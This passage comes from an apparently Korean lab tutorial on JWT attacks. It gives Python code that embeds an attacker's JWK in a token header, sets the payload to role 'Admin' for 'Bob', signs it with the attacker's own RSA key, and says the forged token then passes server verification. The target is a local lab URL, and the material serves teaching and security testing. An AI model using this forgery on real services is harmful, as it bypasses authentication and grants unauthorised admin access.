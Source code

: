 ```python
        signature = signer.sign(h)
    except:
        cprint("Invalid Private Key", "red")
        exit(1)
    newSig = base64.urlsafe_b64encode(signature).decode('UTF-8').strip("=")
    return newSig, newContents.decode('UTF-8')


# 사용자가 입력한 개인키를 이용해 공개키 생성
def getRSAKeyPair():
    privKey = RSA.importKey(myKey)
    pubKey = privKey.publickey().exportKey("PEM")

    return pubKey, privKey


# 빈 JWK 생성
def buildJWKS(n, e, kid):                                       
    newjwks = {}
    newjwks["kty"] = "RSA"
    newjwks["kid"] = kid
    newjwks["use"] = "sig"
    newjwks["e"] = str(e.decode('UTF-8'))
    newjwks["n"] = str(n.decode('UTF-8').rstrip("="))
    return newjwks


# 'Header.Payload'를 Base64 인코딩
def genContents(headDict, paylDict, newContents=""):
    if paylDict == {}:
        newContents = base64.urlsafe_b64encode(json.dumps(headDict,separators=(",",":")).encode()).decode('UTF-8').strip("=")+"."
    else:
        newContents = base64.urlsafe_b64encode(json.dumps(headDict,separators=(",",":")).encode()).decode('UTF-8').strip("=")+"."+base64.urlsafe_b64encode(json.dumps(paylDict,separators=(",",":")).encode()).decode('UTF-8').strip("=")
    return newContents.encode().decode('UTF-8')


if __name__ == '__main__':
	# 토큰을 변조하여 아래 headDict, PaylDict에 대입
    headDict = {"alg": "RS256","typ": "JWT"}
    paylDict = {"account": "Bob","role": "Admin","iat": 1659430187,"aud": "https://127.0.0.1/jwt/key-injection"}

    # 변조된 JWT를 JWK로 사인하여 출력
    newSig, newContents = jwksEmbed(headDict, paylDict)

    print(newContents+"."+newSig)
```
### --- Step 04 변조된 토큰 전송
Step 03에서 생성된 토큰을 서버에 보내면 성공적으로 검증되며 페이로드가 변조된 것을 확인할 수 있습니다.